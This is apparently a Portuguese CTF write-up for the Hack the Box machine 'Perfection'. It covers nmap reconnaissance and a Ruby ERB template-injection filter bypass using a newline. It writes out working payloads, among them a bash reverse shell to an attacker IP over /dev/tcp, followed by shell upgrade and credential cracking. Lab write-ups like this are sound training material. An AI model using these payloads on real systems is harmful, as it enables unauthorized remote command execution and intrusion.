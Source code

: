 ```yaml
---
title: "Hack the Box - Perfection"
summary: "Resolução da máquina perfection do hack the box "
categories: ["Generated"]
tags: ["CTF", "Hack the Box"]
# externalUrl: ""
date: 2024-03-22
draft: false
showAuthor: false
authors:
  - paixao
showAuthorsBadges : false 
series: ["CTF"]
series_order: 2
---
```


## 1. Introdução


Coe, aqui estara a descrição dos passos que eu junto à galera da sunsec tomamos para resolver a máquina "Perfection" do hack the box. E que depois de muita luta (principalmente no bypass do SSTI) nós conseguimos ownar.

## Reconhecimento

A princípio, utilizamos o nmap a fim de descobrir as portas sendo utilizadas e os serviços exploravei bem como suas versões

* nmap -sC -sV $target
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Após analisar o resultado do nmap, nos voltamos para a aplicação web na porta 80. Na qual seguimos mapeando, foi utilizado o wapplizer extrair informações sobre as tecnologias sendo utilizadas na página web e descobrimos que estão utilizando ruby na versão 3.0.2. Além disso, o site foi construido usando o WEBrick 1.7.0. Com tudo que foi recolhido, buscamos por exploits para explorar as versões das tanto do ruby quanto do WEBbrick mas não encontramos nada.


Continuamos vasculhando à aplicação até esbarrar no seguinte formulário:

[![Imagem do form de peso](perfection-form.png)]

Seguindo o caminho esperado pela aplicação, nós inserimos os dados necessários no formulário e obtivemos como resultado um cálculo de peso.

```
Your total grade is 12%

sample: 12%

N/A: 0%

N/A: 0%

N/A: 0%

N/A: 0%
```
Dado este output, nós percebemos que os dados que nós inserimos estão sendo processados pelo backend da aplicação e está sendo devolvido para o frontend. Com isso em mente, tentamos inserir alguns payloads de XSS/SQLI/SSTI e obtivemos a seguinte a menssagem "Malicious input blocked" então decidimos investir nesse campo. Focamos nos payloads de SSTI por se tratar de uma app escrita em ruby e esta linguagem ter um péssimo histórico com templates.

Após batermos cabeça por muito tempo usando vários payloads com os mais diversos encodes possíveis, utilizamos uma técnica de bypass por meio da quebra de linha com o seguinte payload:
```
unencoded
aa\n<%= `ls /` %>

encoded
aa%0a<%25%3d+`ls+/`+%25>
```
Feito isso, agora é possível executar comandos dentro da máquina alvo. Sendo assim tentamos pegamos uma shell reversa alterando o comando para:
```
unencoded
aa\n<%= `bash -i >& /dev/tcp/10.10.14.73/1337 0>&1` %>

encoded
aa\n<%25%3d+`bash+-i+>%26+/dev/tcp/10.10.14.73/1337+0>%261`+%25>
```
Agora dentro da máquina alvo fazemos o update da shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Vasculhando por informações, encontra-se no diretorio do usuário "susan" um sub-diretorio de migrations, e utilizando o comando strings nele algumas informação.
```
Credenciais da sunsan
```

De posse dessa credencial nós quebrabos a senha com hashcat e a utilizamos para logar como root e pegar a última flag.

